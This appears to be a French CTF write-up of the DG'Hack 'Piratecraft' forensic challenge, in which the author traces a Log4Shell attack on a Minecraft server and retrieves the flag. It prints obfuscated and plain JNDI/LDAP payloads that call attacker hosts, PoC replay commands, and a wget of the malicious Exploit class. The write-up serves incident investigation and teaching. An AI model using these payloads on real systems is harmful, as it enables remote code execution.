



# DG'Hack

## Détection

### Piratecraft - Facile - 50 pts

#### Description

Un service d'hébergement de serveurs de jeux fournit des VPS avec Minecraft préinstallé pour leurs clients. Certaines attaques ciblent les serveurs et les font tomber en panne. Vous êtes le nouvel administrateur système. Vous avez accès à un serveur attaqué. Détectez l'intrusion sur le serveur Minecraft et essayez de comprendre les actions malveillantes.

> Information: utilisez les options suivantes avec la commande ssh pour éviter les déconnexions :
>
> ```bash
> ssh <address> -p <port> -o ServerAliveInterval=30 -o ServerAliveCountMax=2
> ```


#### Résolution

On peut lancer un lab et on accède à ce panel :



On se connecte en SSH avec le compte root et on commence la reconnaissance :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ sshpass -p "bRrKXIKZEaIs1yR8Izo@" ssh root@ssh-piratecraft-server-8n3uly.inst.malicecyber.com -p 4112 -o ServerAliveInterval=30 -o ServerAliveCountMax=2
Linux malice 5.10.0-14-amd64 #1 SMP Debian 5.10.113-1 (2022-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov 10 12:32:03 2022 from 192.169.1.254

root@malice:~# pwd       
/root

root@malice:~# ls -la
total 36
drwx------  6 root root 4096 Jun 20 17:15 .
drwxr-xr-x 18 root root 4096 May  6  2022 ..
drwx------  3 root root 4096 May 10  2022 .ansible
-rw-r--r--  1 root root 1083 Oct 27 16:47 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  2 root root 4096 Jun 20 17:16 .cache
drwxr-xr-x  3 root root 4096 May  7  2022 .local
-rw-r--r--  1 root root  303 May  6  2022 .profile
drwx------  2 root root 4096 May  9  2022 .ssh

root@malice:~# cat .bash_history
[...]

root@malice:~# ls -la /home
total 32
drwxr-xr-x  5 root root  4096 May  7  2022 .
drwxr-xr-x 18 root root  4096 May  6  2022 ..
drwxr-xr-x  3 app  app   4096 Oct 26 12:35 app
drwxrwxr-x  5 app  app   4096 May 13 16:16 craft
drwx------  2 root root 16384 May  6  2022 lost+found
```

Le `.bash_history` contient des informations non pertinentes pour le challenge. Mais il semblerait que deux autres utilisateurs aient accès au serveur .

```
root@malice:~# ls -la /home/app
total 28
drwxr-xr-x 3 app  app  4096 Oct 26 12:35 .
drwxr-xr-x 5 root root 4096 May  7  2022 ..
-rwxrwxr-x 1 app  app   607 May  8  2022 .bash_history
-rw-r--r-- 1 app  app   220 May  6  2022 .bash_logout
-rw-r--r-- 1 app  app  3526 May  6  2022 .bashrc
drwxr-xr-x 3 app  app  4096 Oct 26 12:03 .local
-rw-r--r-- 1 app  app   807 May  6  2022 .profile

root@malice:~# cat /home/app/.bash_history
whoami
mkdir /home/craft
cd /home/craft/
ls -lthar
apt-get update -y
apt-get install -y openjdk-17-jdk openjdk-17-jre git zip screen wget nano openssh-server php7.4
https://launcher.mojang.com/v1/objects/0a269b5f2c5b93b1712d0f5dc43b6182b9ab254e/server.jar
mv server.jar minecraft_server.jar
nano /home/craft/start.sh
chmod -R 775 /home/craft/
screen -ls
/home/craft/start.sh minecraft "java -Xmx1024M -Xms1024M -jar /home/craft/minecraft_server.jar nogui &"
screen -R minecraft
cat /var/log/minecraft.log
ls -lthar
pwd
whoami
netstat -lentupac
rm minecraft_server.jar
echo "Hacked by unhappy.competitor.com"
```

Conformément à l'énoncé, un serveur Minecraft est lancé. On remarque également des commandes étranges qui semblent provenir d'un attaquant.

```
root@malice:~# ls -lh /var/log/minecraft.log
-rwxrwxr-x 1 app app 22M Oct 25 16:37 /var/log/minecraft.log

root@malice:~# wc -l /var/log/minecraft.log
267319 /var/log/minecraft.log
```

Les logs du serveur sont bien remplies de messages anodins postés dans le tchat.

Il est fort probable que nous soyons à la recherche d'une exploitation de la fameuse vulnérabilité Log4J.

```
root@malice:~# grep -i jndi /var/log/minecraft.log 

root@malice:~# grep -i ldap /var/log/minecraft.log 

root@malice:~# grep { /var/log/minecraft.log 
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a} 
roo
```

Bingo !

Cela rappelle le message `Hacked by unhappy.competitor.com` vu précédemment.

Cherchons plus d'infos sur cet utilisateur :

```
root@malice:~# grep unhappy minecraft.log
[16:39:32] [User Authenticator #10639/INFO]: UUID of player unhappy is a00b999e-001b-4807-b999-add902b9999c
[16:39:32] [Server thread/INFO]: unhappy[/172.240.18.1:57008] logged in with entity id 10991 at (-257.5, 67.0, -198.5)
[16:39:32] [Server thread/INFO]: unhappy joined the game
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a} 
[16:39:33] [Server thread/INFO]: <unhappy> Reference Class Name: foo 
[16:40:02] [Server thread/INFO]: unhappy lost connection: Disconnected
[16:40:02] [Server thread/INFO]: unhappy left the game
```

On voit que le payload a été échappé avec [des techniques connues](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words). Le payload en clair est `${jndi:ldap://unhappy.competitor.com:1389/a}`.

Mais il est impossible de joindre `unhappy.competitor.com`. On se rend compte que `competitor.com` héberge un site légitime n'ayant aucun rapport avec le CTF. On essaye également de joindre `172.240.18.1`, l'adresse avec laquelle le joueur `unhappy` a rejoint le serveur Minecraft mais cela n'est pas possible non plus.

Regardons si on voit d'autres traces de dans les logs :

```
root@malice:~# grep -r unhappy /var/log
/var/log/user.log.1:May  8 02:02:55 malice ansible-replace: Invoked with path=/var/log/minecraft.log regexp=(unhappy\.competitor\.com:1389) replace=174.10.54.15:1389 backup=False encoding=utf-8 unsafe_writes=False after=None before=None validate=None mode=None owner=None group=None seuser=None serole=None selevel=None setype=None attributes=None
[...]
```

On voit que `unhappy.competitor.com:1389` doit remplacer `174.10.54.15:1389`. Cette dernière adresse répond au ping ! De plus, on constate qu'elle est sur le même réseau local que le serveur victime.

```
root@malice:~# ip a
[...]
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:f2:49:2a:85:85 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 174.10.54.1/24 brd 174.10.54.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::2f2:49ff:fe2a:8585/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

Comme on est root sur une machine connectée à Internet on ne va pas se gêner d'installer nos outils et scanner l'adresse `174.10.54.15`.

```
root@malice:~# apt update

root@malice:~# apt install nmap

root@malice:~# nmap -v 174.10.54.15 -sV -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2022-11-10 12:42 CET
[...]
Nmap scan report for 174.10.54.15
Host is up (0.000090s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
1389/tcp  open  ldap    (Anonymous bind OK)
50666/tcp open  http    SimpleHTTPServer 0.6 (Python 3.9.2)
MAC Address: 00:F2:49:58:FB:42 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.29 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Le port 1389 est ouvert, c'est très bon signe ! On peut essayer d'accéder au serveur web sur le port 50666 :


Pour continuer, il va falloir se renseigner plus précisemment sur le fonctionnement de cette CVE-2021-44228. On tombe rapidement sur cette belle explication : https://thesecmaster.com/how-does-the-log4j-vulnerability-work-in-practical/. Je vous invite à aller la lire attentivement pour comprendre ce qu'est Log4j, LDAP, JNDI...

En résumé, l'attaquant écrit un payload du style `${jndi:ldap://evil.com:1389/a}` qui est loggué en utilisant la bibliothèque Log4j. Cette dernière interprète la chaîne comme une entité externe donc elle fait une requête LDAP sur `evil.com:1389` pour récupérer une classe Java à exécuter.

J'ai envie de rejouer cette fameuse requête LDAP pour récupérer la classe Java malveillante qui a été exécutée sur le serveur Minecraft. Je décide de suivre la démarche de l'article et de rejouer une attaque en local avec Wireshark qui enregistre tout ce qui passe sur le réseau pour comprendre comment cela fonctionne.

Je vais utiliser [un docker pour avoir une app vulérable](https://github.com/christophetd/log4shell-vulnerable-app/pkgs/container/log4shell-vulnerable-app) et un [PoC trouvé sur GitHub](https://github.com/kozmer/log4j-shell-poc).

On lance trois terminaux :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ docker run –name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ python3 poc.py --userip localhost --webport 8000 --lport 9001
```

 ```
 ┌─[ribt@ribt-laptop-mint]─[~]
 └──$ curl localhost:8080 -H '${jndi:ldap://localhost:1389/}'
 ```


[Dans Wireshark](poc.pcapng), un échange TCP apparaît sur le port 1389 :



Le temps étant limité et je n'étant pas certain qu'un simple rejeu fonctionne sur l'environnement du challenge, je décide d'adopter une stratégie de bourrin. Je vais installer docker et tcpdump sur la machine du challenge pour rejouer une vraie exploitation de Log4j et capturer le trafic réseau.

```
root@malice:~# apt update

root@malice:~# apt install docker.io curl tcpdump
```

De nouveau, on lance trois terminaux :

```
root@malice:~# docker run –name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

```
root@malice:~# tcpdump -i ens33 -w /tmp/cap.pcap
```

```
root@malice:~# curl localhost:8080 -H '${jndi:ldap://174.10.54.15:1389/}'
```


On peut désormais récupérer le fichier de capture :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ sshpass -p "bRrKXIKZEaIs1yR8Izo@" scp -P 4112 root@ssh-piratecraft-server-8n3uly.inst.malicecyber.com:/tmp/cap.pcap ./
```


En l'ouvrant [dans Wireshark](cap.pcap) on voit à nouveau un échange TCP sur le port 1389 :



On compare ça avec notre catupre locale et on voit que l'URL http://174.10.54.15:50666/ est apparue et ça correspond au scan de port !

Sur notre PoC local la classe était chargée depuis http://localhost:8080/Exploit.class donc on devine que le nom du fichier est ici `Exploit846865645648575430`. Il ne reste donc plus qu'à télécharger ce fichier :

```
root@malice:~# cd /tmp

root@malice:/tmp# wget http://174.10.54.15:50666/Exploit846865645648575430.class
```

On récupère le fichier sur notre PC :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ sshpass -p "bRrKXIKZEaIs1yR8Izo@" scp -P 4112 root@ssh-piratecraft-server-8n3uly.inst.malicecyber.com:/tmp/Exploit846865645648575430.class ./
```

Et on l'upload sur http://www.javadecompilers.com/ pour récupérer [le code source](./Exploit.java).

On voit que cela ressemble à un reverse shell. On modifie un chouïa le code pour afficher ce qui est normalement envoyé dans le socket :

```java
import java.nio.charset.StandardCharsets;
import java.util.Base64;

public class Solve {
    public static void main(String[] args) {
        final String str = "";
        final int[] array = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
        final int[] array2 = { 73, 121, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 70, 100, 70, 84, 69, 78, 80, 84, 85, 85, 103, 83, 85, 52, 103, 85, 48, 104, 70, 84, 69, 119, 103, 76, 83, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
        final int[] array3 = { 73, 121, 65, 116, 73, 67, 48, 103, 81, 85, 120, 77, 73, 70, 108, 80, 86, 86, 73, 103, 81, 49, 86, 67, 82, 86, 77, 103, 81, 86, 74, 70, 73, 69, 74, 70, 84, 69, 57, 79, 82, 121, 66, 85, 84, 121, 66, 86, 85, 121, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
        final int[] array4 = { 73, 121, 65, 116, 76, 83, 65, 107, 83, 71, 70, 106, 97, 50, 86, 107, 88, 50, 74, 53, 88, 51, 86, 117, 97, 71, 70, 119, 99, 72, 107, 117, 89, 50, 57, 116, 99, 71, 86, 48, 97, 88, 82, 118, 99, 105, 53, 106, 98, 50, 48, 103, 76, 83, 48, 103, 73, 119, 61, 61 };
        final int[] array5 = { 73, 121, 66, 69, 82, 48, 104, 66, 81, 48, 116, 55, 78, 68, 69, 120, 88, 49, 107, 119, 86, 88, 74, 102, 81, 49, 85, 52, 77, 122, 86, 102, 78, 72, 73, 122, 88, 122, 103, 122, 77, 84, 66, 79, 78, 108, 56, 51, 77, 70, 57, 86, 78, 88, 48, 103, 73, 119, 61, 61 };
        final int[] array6 = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
        String string = "";
        final int[] array7 = array;
        for (int length = array7.length, i = 0; i < length; ++i) {
            string += (char)array7[i];
        }
        final String string2 = str + new String(Base64.getDecoder().decode(string), StandardCharsets.UTF_8) + "\r\n";
        String string3 = "";
        final int[] array8 = array2;
        for (int length2 = array8.length, j = 0; j < length2; ++j) {
            string3 += (char)array8[j];
        }
        final String string4 = string2 + new String(Base64.getDecoder().decode(string3), StandardCharsets.UTF_8) + "\r\n";
        String string5 = "";
        final int[] array9 = array3;
        for (int length3 = array9.length, k = 0; k < length3; ++k) {
            string5 += (char)array9[k];
        }
        final String string6 = string4 + new String(Base64.getDecoder().decode(string5), StandardCharsets.UTF_8) + "\r\n";
        String string7 = "";
        final int[] array10 = array4;
        for (int length4 = array10.length, l = 0; l < length4; ++l) {
            string7 += (char)array10[l];
        }
        final String string8 = string6 + new String(Base64.getDecoder().decode(string7), StandardCharsets.UTF_8) + "\r\n";
        String string9 = "";
        final int[] array11 = array5;
        for (int length5 = array11.length, n = 0; n < length5; ++n) {
            string9 += (char)array11[n];
        }
        final String string10 = string8 + new String(Base64.getDecoder().decode(string9), StandardCharsets.UTF_8) + "\r\n";
        String string11 = "";
        final int[] array12 = array6;
        for (int length6 = array12.length, n2 = 0; n2 < length6; ++n2) {
            string11 += (char)array12[n2];
        }
        System.out.println(string10 + new String(Base64.getDecoder().decode(string11), StandardCharsets.UTF_8) + "\r\n");
           
    }           
}
```


```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ javac Solve.java

┌─[ribt@ribt-laptop-mint]─[~]
└──$ java Solve
###########################################
# - - - - -  WELCOME IN SHELL - - - - - - #
# - - ALL YOUR CUBES ARE BELONG TO US - - #
# -- $Hacked_by_unhappy.competitor.com -- #
# DGHACK{411_Y0Ur_CU835_4r3_8310N6_70_U5} #
###########################################

```

Et voilà pour ce challenge pas si facile que ça ! C'était une très bonne occasion d'apprendre le fonctionnement de la vulnérabilité Log4j en détail.


Après coup je remarque que le rejeu aurait fonctionné. La solution est plus propre car ne nécessite pas que notre instance du challenge soit root ni connectée à Internet.

```
root@malice:~# echo "304302010263210401610a01000a0103020100020100010100870b6f626a656374436c6173733000a01b30190417322e31362e3834302e312e3131333733302e332e342e32" | xxd -r -ps | nc 174.10.54.15 1389 | xxd
00000000: 3081 a302 0102 6481 9d04 0161 3081 9730  0.....d....a0..0
00000010: 1604 0d6a 6176 6143 6c61 7373 4e61 6d65  ...javaClassName
00000020: 3105 0403 666f 6f30 2c04 0c6a 6176 6143  1...foo0,..javaC
00000030: 6f64 6542 6173 6531 1c04 1a68 7474 703a  odeBase1...http:
00000040: 2f2f 3137 342e 3130 2e35 342e 3135 3a35  //174.10.54.15:5
00000050: 3036 3636 2f30 2404 0b6f 626a 6563 7443  0666/0$..objectC
00000060: 6c61 7373 3115 0413 6a61 7661 4e61 6d69  lass1...javaNami
00000070: 6e67 5265 6665 7265 6e63 6530 2904 0b6a  ngReference0)..j
00000080: 6176 6146 6163 746f 7279 311a 0418 4578  avaFactory1...Ex
00000090: 706c 6f69 7438 3436 3836 3536 3435 3634  ploit84686564564
000000a0: 3835 3735 3433 300c 0201 0265 070a 0100  8575430....e....
^C

root@malice:~# cd /tmp

root@malice:/tmp# wget http://174.10.54.15:50666/Exploit84686564564857543.class
```

